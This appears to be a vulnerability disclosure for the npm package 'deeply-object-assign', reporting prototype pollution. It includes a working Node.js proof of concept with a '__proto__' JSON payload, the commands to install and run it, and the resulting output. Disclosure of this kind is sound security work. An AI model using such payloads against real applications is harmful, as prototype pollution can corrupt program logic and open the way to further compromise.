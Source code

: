 # Description

`deeply-object-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var deeplyObjectAssign = require("deeply-object-assign")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
deeplyObjectAssign(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i deeply-object-assign # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

